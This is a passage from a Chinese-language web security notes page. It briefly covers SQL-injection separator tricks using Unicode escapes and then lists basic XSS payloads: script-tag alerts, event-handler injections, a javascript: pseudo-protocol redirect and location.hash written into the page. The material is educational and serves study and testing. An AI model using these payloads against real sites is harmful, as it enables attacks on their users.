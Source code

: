 ![Alt text](61.png)
###### 测试二 用Unicode 编码\u0009(A,B,C,D,20,2B)均可以被json_decode并带入Mysql作为分割符号
###### 测试结果为
![Alt text](62.png)
###### 测试三，尝试更改单词为unicode 编码
![Alt text](63.png)





## 二.跨站脚本（XSS）
### 原理:恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的目的。
## 1.没有任何过滤直接输出到页面
```javascript
<script>alert(/xss/)</script>
```
## 2.原理:页面加载之后立即执行一段 JavaScript代码在onload事件里面，那么我们就可以不使用<\script\>标签就可以达到弹窗的效果
```
onload('alert(/ss/)')
```
## ３.window.location.hash并不会跳转到新的链接，只会在当前链接里面
```javascript
//如:http://www.w3cschool.cc/test.htm＃PART2
<script>
document.write(location.hash);
</script>
以上输出#part2
```
## 4.在跳转的地方,用javascript:伪协议
```javascript
window.location='javascript:alert(/xss/)'
```
## ５.input标签里面触发ｘｓｓ
```javascript
onmouseover=alert(document.domain)
onclick=alert(/ss/)
```